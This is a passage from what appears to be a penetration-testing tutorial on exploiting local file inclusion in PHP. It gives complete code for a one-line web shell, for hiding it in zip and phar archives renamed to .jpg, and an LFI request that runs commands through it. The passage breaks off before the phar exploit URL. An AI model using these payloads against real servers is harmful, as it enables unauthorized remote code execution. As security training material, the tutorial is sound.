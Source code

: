 #### **Creating and Exploiting a Zip Archive**

**Create a PHP Web Shell (shell.php)**:

Shell

```php
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

**Zip the PHP File**:

Shell

```php
zip shell.jpg shell.php
```

This creates a zip archive named shell.jpg containing shell.php.

**Exploit LFI with Zip Archive**: Assuming the path to the uploaded zip archive is /profile\_images/shell.jpg:

Shell

```php
http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```

#### **Phar Upload Exploitation**

Using the phar:// wrapper, we can similarly exploit LFI vulnerabilities by crafting a phar archive that contains PHP code.

#### **Creating and Exploiting a Phar Archive**

**Create a PHP Script to Create Phar (shell.php)**:

PHP

```php
**<?php**
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->stopBuffering();
```

**Compile PHP Script into Phar Archive**:

Shell

```php
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

This compiles shell.php into shell.phar and renames it to shell.jpg.

**Exploit LFI with Phar Archive**: Assuming the path to the uploaded phar archive is /profile\_images/shell.jpg:
